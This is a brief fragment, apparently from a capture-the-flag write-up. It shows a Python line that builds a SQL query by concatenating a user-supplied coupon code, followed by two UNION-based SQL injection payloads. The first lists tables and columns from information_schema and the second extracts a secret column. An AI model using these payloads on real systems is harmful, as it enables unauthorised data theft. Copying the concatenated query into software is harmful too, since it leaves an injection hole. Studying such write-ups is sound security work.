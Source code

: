 You can see python code by accessing /?source=1

Vulnerable piece of code:

mycursor.execute("SELECT * FROM coupons WHERE code = '" + opcode + "'")
SQL:
' UNION SELECT 1, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema' AND ''='
SQL:
' UNION SELECT 1,SecretData,2 FROM 64ff585930293b81079991770a3b28de WHERE ''='
